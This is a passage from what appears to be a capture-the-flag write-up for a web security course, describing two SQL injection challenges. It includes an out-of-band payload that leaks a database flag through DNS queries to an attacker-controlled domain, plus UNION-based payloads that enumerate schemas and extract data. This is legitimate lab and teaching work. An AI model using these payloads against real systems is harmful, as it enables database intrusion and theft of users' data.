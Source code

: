 At this point we can get what we're searching for, the flag itself:
```
' and 1=0 UNION (SELECT id, (SELECT dblink_connect('my_conn', 'host=' ||
(select flag from flag where flag like 'COMP%') || '.oob.domain.com user=someuser
dbname=somedb password=postgres')), surname, address, postcode, cats_name,
mothers_maiden_name, gender, time_created
FROM person WHERE 1=1) --
```

And the DNS listener on our server gives us the flag:
```
06:15:42.192130 IP ec2-13-54-223-207.ap-southeast-2.compute.amazonaws.com.36635
> 172.172.172.172.domain: 17659% [1au] A?
COMP6843{a14f589c-9b86-4f98-8160-454c588e108f}.oob.domain.com. (86)
```

### Severity
The severity of this vulnerability is high as even though we cannot get the information directly on the site, by leveraging DNS via an Out of Band Injection, an attacker can collect the data by retrieving it through DNS requests. The fact that the any arbitrary table can be viewed essentially reveals all the data in the database to the world, from sensitive data to user data such as logins and passwords.

## slowpoke.ext.ns.agency
COMP6843{e65e9af7-704a-4acd-944c-d67cb8dc3442}
### Description
The vulnerability in `slowpoke.ext.ns.agency` is in the search field under the `query` subdirectory, found on the "challenge" link, with the search field vulnerable to SQL injection, confirmed with simply entering an `'` into it, producing an error (hence an error based injection). However there are two catches:
* Queries made against it are slow greatly decreasing retry times.
* The amount of rows returned are limited to 500 and so a simple `' OR '1'='1` will produce too many results, causing the application to not return the results.

### Exploitation
Through the error based injection, the following query is:
```
"SELECT id, name, surname, address, postcode, cats_name,
mothers_maiden_name, gender, time_created
FROM person
WHERE nameLIKE '%%%%'
LIMIT 500;"
```
The injection occurs between the `%%%%`. The solution would be:
* To return NO rows from the normal query to not break the 500 row limit.
* Use a `UNION` to the query to reveal any information from `INFORMATION_SCHEMA.TABLES` if possible (Rinse and repeat for different database versions if necessary). A sample payload is as follows:
```
' AND 1=2 UNION SELECT NULL, NULL, table_name, NULL,
NULL, NULL, NULL, NULL, NULL
FROM information_schema.tables
WHERE table_schema NOT IN ('information_schema',
'pg_catalog') AND table_name LIKE '
```
NOTE: The above is actually one line.
* Running such a payload would reveal two tables `flag` and `person`. We can adjust the query to reveal `column_name` from `information_schema.columns` for any table (most likely `flag` in our case) which reveals the most likely column `flag`. Finally, we replace the `information_schema` query with a query to get `select flag from flag`, padding in the other columns to match the union. This produces the flag. Final payload is as below (NOTE: It is actually entered in one line):
```
' AND 1=2 UNION SELECT NULL, NULL, flag, NULL, NULL, NULL,
NULL, NULL, NULL FROM flag WHERE flag LIKE '%COMP
```
